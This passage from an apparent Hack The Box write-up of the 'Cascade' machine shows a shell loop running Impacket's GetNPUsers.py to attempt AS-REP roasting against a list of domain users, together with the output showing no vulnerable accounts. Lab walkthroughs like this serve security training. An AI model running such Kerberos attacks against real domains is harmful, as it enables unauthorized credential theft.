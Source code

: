 Cool. We have a list of users. Now, we are going for the low hanging fruit: TGTs for users with the "Do not require Kerberos pre-authentication" set.

```
# for user in $(cat usernames.txt); do python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.182 "cascade/$user"; done
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for CascGuest
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for arksvc
[-] User arksvc doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for s.smith
[-] User s.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for r.thompson
[-] User r.thompson doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for util
[-] User util doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for j.wakefield
[-] User j.wakefield doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for s.hickson
[-] User s.hickson doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for j.goodhand
[-] User j.goodhand doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for a.turnbull
[-] User a.turnbull doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for e.crowe
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for b.hanson
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for d.burman
[-] User d.burman doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for BackupSvc
[-] User BackupSvc doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Getting TGT for j.allen
[-] User j.allen doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

```

[1]: https://www.hackthebox.eu/home/machines/profile/235
[2]: https://www.hackthebox.eu/home/users/profile/158833
[3]: https://www.hackthebox.eu/